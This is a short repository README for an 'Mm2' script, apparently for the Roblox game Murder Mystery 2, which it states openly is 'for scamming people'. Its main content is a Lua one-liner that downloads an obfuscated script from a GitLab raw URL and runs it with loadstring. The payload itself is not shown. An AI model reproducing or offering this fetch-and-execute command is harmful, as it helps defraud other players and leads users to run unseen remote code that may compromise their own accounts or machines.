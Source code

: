 # Mm2-script
This is an mm2 script for scamming people. 

here is the script :       loadstring (game :HttpGet("https://gitlab.com/DathFeather/Script/ raw/main/Protected_b4a78ace3cdo76b86eda6f58. lua",true))()
